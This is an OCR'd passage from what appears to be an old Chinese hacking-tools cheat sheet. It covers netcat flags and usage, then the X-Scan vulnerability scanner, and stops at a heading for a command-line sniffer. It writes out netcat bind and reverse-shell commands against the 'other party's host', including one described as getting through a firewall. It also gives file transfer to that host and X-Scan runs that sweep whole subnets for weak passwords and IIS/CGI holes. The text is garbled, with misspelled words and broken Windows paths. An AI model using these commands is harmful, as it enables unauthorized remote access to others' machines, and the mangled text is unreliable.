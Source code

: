 > -u UDP模式
> -v 详细输出，用-vv将更详细
> -w数字 timeout延时间隔
> -z 将输入，输出关掉（用于扫锚时）
> 基本用法：
> nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
> nc -l -p 80 开启本机的TCP 80端口并监听
> nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
> nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
> nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
> 高级用法：
> nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
> nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
> nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传> 件作用
> type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可> 传送文件作用
> 本机上用：nc -l -p 本机端口
> 在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
> nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
> 本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
> 在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
> 备 注：
> | 管道命令
> < 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
> @ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
> >与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
> 如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只> 次的结果，是因为第二次的结果把第一次的覆盖了。
> 八：
> 扫描工具：xscan.exe
> 基本格式
> xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
> xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
> 检测项目
> -active 检测主机是否存活
> -os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
> -port 检测常用服务的端口状态
> -ftp 检测FTP弱口令
> -pub 检测FTP服务匿名用户写权限
> -pop3 检测POP3-Server弱口令
> -smtp 检测SMTP-Server漏洞
> -sql 检测SQL-Server弱口令
> -smb 检测NT-Server弱口令
> -iis 检测IIS编码/解码漏洞
> -cgi 检测CGI漏洞
> -nasl 加载Nessus攻击脚本
> -all 检测以上所有项目
> 其它选项
> -i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
> -l 显示所有网络适配器
> -v 显示详细扫描进度
> -p 跳过没有响应的主机
> -o 跳过没有检测到开放端口的主机
> -t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
> -log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
> 用法示例
> xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应> 机
> xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，N> 口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
> xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线> 量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
> 九：
> 命令行方式嗅探器: xsniff.exe